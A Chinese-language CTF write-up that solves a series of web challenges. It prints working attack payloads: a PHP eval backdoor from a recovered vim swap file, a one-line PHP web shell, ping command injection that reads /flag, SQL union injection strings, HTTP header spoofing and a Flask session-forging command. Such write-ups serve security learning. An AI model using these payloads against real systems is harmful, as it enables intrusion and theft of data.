## 我flag呢？

进去之后页面是这样


先看看网页源码呢



在注释里拿到flag

源码里也有一段彩蛋

## **导弹迷踪**

进去之后好像是一个小游戏


先审查一下源码



在最下面看到Game files

查看一下game.js

发现flag



## Follow me and hack me



没啥难度

直接上hackbar就行



似乎备份文件里有什么东西，去看看

试试常用的备份文件

发现有/www.zip，在index.php.bak里发现一个彩蛋



## Vim yyds



只知道VIM是个编辑器，然后去查了一下信息

vim编辑的index.php文件，在编辑状态强制退出终端，会在同目录下产生一个.index.php.swp文件，我们可以使用vim -r .index.php.swp恢复文件

```
<?php
            error_reporting(0);
            $password = "Give_Me_Your_Flag";
            echo "<p>can can need Vim </p>";
            if ($_POST['password'] === base64_encode($password)) {
                echo "<p>Oh You got my password!</p>";
                eval(system($_POST['cmd']));
            }
            ?>
```

POST一个base64加密后的password，再POST一个cmd执行命令就行

## PHP是世界上最好的语言！！

进去之后好像是一个转化工具


猜测有可能是命令执行，在右边随便试试，

run一下system("ls /");目录就爆出来了

然后直接cat flag就行

这道题似乎没有过滤什么东西

## 作业管理系统

进去就是一个登录，试试用admin，admin登录，进去之后如下



下面有个创建文件，随便创建一个1.php，然后编辑一下

```
<?php @eval($_POST['hyh']);?>
```

然后蚁剑连起来

在根目录下拿到flag

## Ping



简单的前端绕过，把check\_ip删了就行

然后直接进行命令执行就就行

```
127.0.0.1|ls  /  =>  127.0.0.1|cat /flag
```

拿到flag

## 这是什么？SQL ！注一下 ！

提示如下，居然套这么多层。。。。



先进行常规注入，再password里发现一段彩蛋

好像flag就不在这个数据库里面

那就重新来过

爆一下库名：

```
-1)))))) and 1=2 union select 1,group_concat(schema_name) from information_schema.schemata--+
```

还有一个ctftraining库，flag应该是在这个库里面

里面也有一张flag表，这个时候要拿到flag字段的时候就要指明数据库了，不然他只会查默认那个库

拿到flag：

```
-1)))))) and 1=2 union select 1,group_concat(flag) from ctftraining.flag--+
```

## Http pro max plus

这道题考的是和HTTP相关的

直接上burpsuite



试试X-Forwarded-For头，结果被发现了！

然后再试试Client-Ip：127.0.0.1

来到下一关



作者为什么要选这个网站。。。。

看见from就想到referer了，添加一个referer头绕过

来到下一关

user-agent：Chrome

下一关



哦？这是新东西，没见过，到处查资料，幸好有万能的GPT

添加一个Via 头


出现一个php，进去看看

发现源码



在另一个php中得到flag

## 就当无事发生



在GitHub源码里，拿到flag



## 1zjs

一个魔方游戏，我不会玩魔方。。



万事先看看源码

在一个js文件里发现flag.php



进去看看，全是括号



不过这道题叫js，应该是与js有关，但是看着好像又不是js代码， 查询资料后发现是 jsfuck类型的代码

直接去解码或者在控制台跑一下就行了



## Flag点击就送！

随便输入一个名字，发现响应头里有session



把这段session拿去jwt.io解密一下



那么就要伪造session了

在伪造session之前要知道key值

flask框架的session是存储在客户端的，那么就需要解决session是否会被恶意纂改的问题，而flask通过一个secret\_key，也就是密钥对数据进行签名来防止session被纂改。

使用脚本加密一下

```
python flask_session_cookie_manager3.py encode -s 'LitCTF' -t '{"name":"admin"}'
```

再抓包修改，即可伪造为admin管理员登录，拿到flag
